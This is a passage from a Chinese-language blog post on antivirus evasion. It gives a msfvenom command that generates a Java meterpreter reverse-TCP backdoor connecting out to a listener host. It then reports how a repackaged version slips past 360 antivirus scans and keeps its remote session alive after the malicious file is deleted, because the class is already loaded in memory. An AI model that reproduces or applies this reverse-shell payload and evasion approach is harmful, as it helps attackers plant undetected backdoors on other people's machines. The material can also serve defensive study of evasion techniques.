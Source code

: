   

  

三、

 ** _免杀测试_**

  

生成默认的msf jar后门

msfvenom -p java/meterpreter/reverse_tcp LHOST=172.16.81.1 LPORT=4444 x
>~/Desktop/TestJar.jar

  

    
    
    监听：  
    

![](https://gitee.com/fuli009/images/raw/master/public/20210904004950.png)不打包，直接运行TestJar.jar会立马报毒：  
![](https://gitee.com/fuli009/images/raw/master/public/20210904004951.png)按照上面的方法对TestJar.jar进行打包，在没有杀软和java环境的机器上安装并运行，可以成功上线：  
![](https://gitee.com/fuli009/images/raw/master/public/20210904004953.png)在安装了360的机器上测试：

  

安装包查杀，未发现风险：  
![](https://gitee.com/fuli009/images/raw/master/public/20210904004954.png)安装后的文件夹，未发现风险：  
![](https://gitee.com/fuli009/images/raw/master/public/20210904004956.png)运行安装后的程序：

  

运行后不会马上出发告警  
![](https://gitee.com/fuli009/images/raw/master/public/20210904004957.png)尝试执行命令后出发告警了：  
![](https://gitee.com/fuli009/images/raw/master/public/20210904004958.png)![](https://gitee.com/fuli009/images/raw/master/public/20210904005001.png)可以看到，提示的是已经成功删除病毒文件(注意，这里删除的文件是.class文件)，但我们回到我们的meterpreter，发现并没有掉线，且能够正常执行所有命令，后续不会再有告警：  
![](https://gitee.com/fuli009/images/raw/master/public/20210904005005.png)经过主动检测，除了普通的系统优化建议外，无法查杀出后门：  
![](https://gitee.com/fuli009/images/raw/master/public/20210904005006.png)![](https://gitee.com/fuli009/images/raw/master/public/20210904005008.png)通过上面测试，说明即使恶意文件被删除了，但是我们的会话还是在线，且不会再触发告警或被主动检测出风险，说明我们的后门的恶意类已经被加载进了内存。

  

从进程上看，只能看到有个java程序在运行：  

![](https://gitee.com/fuli009/images/raw/master/public/20210904005009.png)

如果杀软开启针对内存检测的功能则免杀效果会失效，例如开启360的网购模式：

  

提示进程java.exe存在问题了  
![](https://gitee.com/fuli009/images/raw/master/public/20210904005011.png)

  
  

 ** _后记_**

  

## 优点
